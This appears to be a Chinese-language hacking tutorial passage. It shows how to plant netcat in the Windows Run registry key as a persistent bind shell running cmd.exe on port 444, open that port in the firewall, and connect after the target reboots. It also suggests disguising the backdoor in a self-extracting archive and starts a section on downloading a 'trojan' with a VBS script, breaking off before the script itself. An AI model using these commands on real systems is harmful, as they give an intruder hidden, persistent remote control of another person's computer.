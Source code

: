 

把nc放到自动启动里：

```
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'c:\nc.exe -Ldp 444 -e cmd.exe'
```



查看代码写的对不对：

```
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc
```



查看防火墙状态：

```
shell
netsh firewall show opmode
```



添加一个防火墙规则允许444端口通过：

```
sh
netsh firewall add portopening TCP 444 "FireWall" ENABLE ALL
```



目标主机重启之后：

```
nc -v [目标ip] 444
```



然后即可连接上。



## 拓展：

注册表修改的内容可以在msconfig的启动选项卡里看到
可以考虑使用自解压的方法进行伪装...

**黑客操作的关键**：利用合法软件去进行操作

**下载的本质**：把对方服务器上所存放的二进制代码原封不动地根据http 协议或其他协议复制到自己的硬盘上。



## 使用vbs去远程下载文件:

比如在自己网页上创建一个haha.txt文件当作木马。



创建一个a.vbs：
